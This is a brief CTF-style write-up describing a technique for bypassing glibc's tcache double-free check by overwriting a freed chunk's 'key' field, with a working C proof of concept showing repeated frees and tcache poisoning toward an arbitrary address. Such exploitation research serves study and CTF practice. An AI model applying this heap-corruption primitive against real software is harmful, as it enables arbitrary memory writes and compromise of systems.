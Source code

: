 # New tcache duplicate
> LongChampion, 23/03/2020

I think I have discovered a new technique to bypass tcache's double free checking.  
Look at this [this](https://github.com/bminor/glibc/blob/master/malloc/malloc.c),
```c
[...]
typedef struct tcache_entry
{
  struct tcache_entry *next;
  /* This field exists to detect double frees.  */
  struct tcache_perthread_struct *key;
} tcache_entry;
[...]
```
you can see that these is a field named `key` and this field is used to "detect double frees" according to the source code. Seriously! So I try to modify this field when the corresponding chunk is freed, and the result is very awesome.

```c
#include <stdlib.h>

int main()
{
    long long *a = malloc(0x80 - 8);
    free(a);
    *(a + 1) = 0xdeadbeefcafebabe;
    free(a);
    *(a + 1) = 0xdeadbeefcafebabe;
    free(a);

    long long *first = malloc(0x80 - 8);
    *first = (long long) &a;
    long long *second = malloc(0x80 - 8);
    long long *third = malloc(0x80 - 8);
}
```
As you can see, by modify `key` of a freed tcache chunk, I can free it more than one time. The value `0xdeadbeefcafebabe` is chosen randomly, it just need to differ from the origin value of `key`. I have tested this attack with **GLIBC** 2.31, so I think it will work against all earlier version of **GLIBC** as long as this **GLIBC** have tcache. Further, this vulnerable can lead to an arbitrary write to any address. In the example above, `third` will point to address of `a` in stack.

## Bonus
I have used this attack to solve [House cleaning](https://www.ctfsecurinets.com/challenges#House%20cleaning) challenge at `Securinets Prequals 2K20 CTF`. Really happy with this!
